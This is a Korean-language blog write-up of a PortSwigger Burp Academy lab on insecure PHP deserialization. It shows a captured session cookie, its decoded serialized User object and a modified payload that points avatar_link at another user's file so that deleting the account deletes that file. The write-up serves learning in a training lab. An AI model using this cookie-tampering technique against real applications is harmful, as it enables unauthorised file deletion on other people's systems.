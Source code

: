 ```yaml
---
layout: post
title: "Burp Academy-안전하지 않은 역직렬화(Insecure Deserialization) 관련 취약점: Using application functionality to exploit insecure deserialization"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Insecure Deserialization]
toc: true
last_modified_at: 2024-05-16 21:00:00 +0900
---
```



# 개요
- 안전하지 않은 역직렬화(Insecure Deserialization) 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization
- 취약점 설명페이지: https://portswigger.net/web-security/deserialization/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요: 어플리케이션의 기능을 이용하기(Using application functionality)
- 어플리케션의 기능에서도 역직렬화 취약점이 있을 수 있다. 
- 예를들어 유저를 삭제하는 기능에서 , 유저의 프로파일 이미지 삭제기능이 있을 수 있는데, 프로파일 이미지 경로를 외부에서 공격자가 지정할 수 있으면 취약점이 될 수 있다.
- 이런 경우는 공격자가 의도적으로 위험한 메서드(유저의 프로파일 이미지 삭제 메서드)를 호출하는 경우다. 그런데 역직렬화 과정에서 자동으로 호출되는 메서드도 있다. 이 것을 `Magic method`라고 부른다. 

# 문제 개요
- 이 랩은 직렬화 베이스의 세션 관리 메커니즘을 사용하고 있다. 
- 어떤 기능은 직렬화된 오브젝트의 데이터로부터 위험한 메서드를 호출한다. 
- 랩을 풀려면 세션 쿠키 안에 있는 직렬화 오브젝트를 수정해서 Carlos유저의 홈 디렉토리에서 Morale.txt파일을 삭제한다. 
- wiener:peter 크레덴셜로 로그인할 수 있다. 
- 또한 백업 계정(gregg:rosebud)에도 액세스할 수 있다. 

```
This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud
```

# 도전
1. 주어진 크레덴셜로 로그인해보면 이 사이트에는 프로필 이미지 업로드 기능이 있는 것을 알 수 있다. 

![](/images/burp-academy-serial-3-1.png)

2. 프로필 이미지를 등록해본다. 등록시에는 `POST /my-account/avatar` 엔드포인로, `Content-Type: multipart/form-data;` 컨텐트 타입의 요청이 전송된다. 

![](/images/burp-academy-serial-3-2.png)

3. 유저를 삭제해본다. Delete account 버튼을 눌러본다. 


다음과 같은 HTTP 요청이 전송되는 것을 볼 수 있다. 

```http
POST /my-account/delete HTTP/2
Host: 0af10084045a60ca82f0108300a90012.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJibzBhOGZ5dHpkYjFwdjg2eGx6OXFvMWd5OTU4YzdqaSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
Content-Length: 0
...

```

4. 세션 쿠키의 값을 Base64 디코딩해서 확인해본다. 

![](/images/burp-academy-serial-3-3.png)


그러면 세션 쿠키의 내용물이 다음과 같은 것을 알 수 있다. `avatar_link`라는 키에 파일 경로 `users/wiener/avatar` 가 값으로 들어가 있는 것을 알 수 있다. 

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bo0a8fytzdb1pv86xlz9qo1gy958c7ji";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

5. 경로를 수정해본다. `users/carlos/morale.txt` 로 변경한다. 문자열 길이는 19에서 23으로 변경한다. 

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bo0a8fytzdb1pv86xlz9qo1gy958c7ji";s:11:"avatar_link";s:23:"users/carlos/Morale.txt";}
```

6. 수정한 세션토큰 값을 Base64 인코딩해서 보내본다. 그러면 302응답은 돌아오지만 아무 일도 일어나지 않는 것을 알 수 있다. 세션토큰에 지정되어 있는 wiener 계정이 이미 삭제된 상태여서 그런 것으로 보인다. 문제에서 주어진 백업 어카운트로 로그인한 뒤 해당 어카운트의 세션토큰으로 다시 시도해본다. 

![](/images/burp-academy-serial-3-4.png)

7. 그런데 다시 시도해도 302응답은 돌아왔지만 아무 일도 일어나지 않는다. 살짝 답을 본다. 아하..! 경로를 `/home/carlos/morale.txt` 로 해야했다. 

8. 다시 해본다. 풀이에 성공했다는 메세지가 표시되었다. 

![](/images/burp-academy-serial-3-success.png)
